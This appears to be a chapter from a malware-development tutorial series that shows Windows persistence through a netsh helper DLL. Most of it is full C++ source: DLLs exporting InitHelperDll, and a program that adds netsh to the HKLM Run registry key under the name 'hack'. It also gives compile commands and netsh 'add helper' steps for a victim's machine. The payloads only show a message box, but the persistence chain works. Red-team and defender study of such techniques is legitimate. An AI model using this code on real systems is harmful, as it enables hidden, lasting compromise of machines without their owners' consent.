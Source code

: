 \newpage
\subsection{72. malware development: persistence - part 6. Windows netsh helper DLL. Simple C++ example.}

![pers](./images/56/2022-05-29_15-24_1.png){width="80%"}    

This section is a next part of a series of articles on windows malware persistence techniques and tricks.    

Today I'll wrote about the result of self-researching another persistence trick: Netsh Helper DLL.

### netsh

**Netsh** is a Windows utility that administrators can use to modify the host-based Windows firewall and perform network configuration tasks. Through the use of DLL files, Netsh functionality can be expanded.

This capability enables red teams to load arbitrary DLLs to achieve code execution and therefore persistence using this tool.
However, local administrator privileges are required to implement this technique.

### practical example

Let's go to consider practical example. First of all create malicious DLL:

```cpp
/*
evil.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Compile it:

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![pers](./images/56/2022-05-29_15-12.png){width="80%"}    

And transferred to the target victim's machine.

Netsh interacts with other components of the operating system via dynamic-link library (DLL) files. Each netsh helper DLL offers a comprehensive collection of features. The functionality of Netsh can be expanded using DLL files:

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](./images/56/2022-05-29_15-20.png){width="80%"}    

Then, the `add helper` can be used to register the DLL with the `netsh` utility:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil.dll
```

![pers](./images/56/2022-05-29_15-23.png){width="80%"}    

![pers](./images/56/2022-05-29_15-24.png){width="80%"}    

Everything is worked perfectly!

However, `netsh` is not scheduled to start automatically by default. Persistence on the host is created by creating a registry key that executes the application during Windows startup. This can be done immediately using the script below:

```cpp
/*
pers.cpp
windows persistence via netsh helper DLL
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // netsh
  const char* netsh = "C:\\Windows\\SysWOW64\\netsh";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 
    0, REG_SZ, (unsigned char*)netsh, strlen(netsh));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see it's similar to script from my post about [persistence via registry run keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)

Check registry run keys:

```powershell
reg query \
"HKLM\Software\Microsoft\Windows\CurrentVersion\Run" \
 /s
```

![pers](./images/56/2022-05-29_15-18.png){width="80%"}    

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/56/2022-05-29_15-14.png){width="80%"}    

and run on victim's machine:      

```powershell
.\pers.exe
```

![pers](./images/56/2022-05-29_15-21.png){width="80%"}    

When the `add helper` command is executed to load a DLL file, the following registry key is created:     

![pers](./images/56/2022-05-29_15-25.png){width="80%"}    

But there is a caveat. The PoC's logic needs to be updated to create a new thread so that netsh can still be used while the payload is running. However, when netsh ends, so does your malicious logic.

So, let's try. Create new DLL (`evil2.cpp`):

```cpp
/*
evil2.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

DWORD WINAPI Meow(LPVOID lpParameter) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 1;
}

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  HANDLE hl = CreateThread(NULL, 0, Meow, NULL, 0, NULL);
  CloseHandle(hl);
  return 0;
}
```

Compile:

```bash
x86_64-w64-mingw32-gcc -shared -o evil2.dll evil2.cpp -fpermissive
```

![pers](./images/56/2022-05-29_16-21.png){width="80%"}    

and run steps again:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil2.dll
```

![pers](./images/56/2022-05-29_16-23.png){width="80%"}    

As you can see, everything is ok, `netsh` can still be used. And we can check registry key for correctness:    

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](./images/56/2022-05-29_16-23_1.png){width="80%"}    

Because it is based on the exploitation of system features, this type of attack cannot be easily mitigated with preventive controls.

[netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)    
[MITRE ATT&CK: Netsh Helper DLL](https://attack.mitre.org/techniques/T1546/007/)    
[source code on github](https://github.com/cocomelonc/2022-05-29-malware-pers-6)    
